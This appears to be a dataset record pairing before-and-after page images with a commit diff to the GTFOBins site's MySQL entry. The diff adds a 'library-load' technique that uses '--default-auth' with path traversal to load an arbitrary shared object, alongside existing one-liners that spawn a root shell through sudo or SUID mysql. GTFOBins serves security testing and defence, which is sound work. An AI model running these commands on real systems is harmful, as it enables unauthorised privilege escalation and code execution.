

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/mysql.md, in a window 1280 px wide. Shown: the whole page at 93% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add MySQL library-load

```diff
--- a/_gtfobins/mysql.md
+++ b/_gtfobins/mysql.md
@@ -7,4 +7,10 @@ functions:
     - code: sudo mysql -e '\! /bin/sh'
   limited-suid:
     - code: ./mysql -e '\! /bin/sh'
+  library-load:
+    - description: |
+        A MySQL server must accept connections in order for this to work.
+
+        The following loads the `/path/to/lib.so` shared object.
+      code: mysql --default-auth ../../../../../path/to/lib
 ---
```
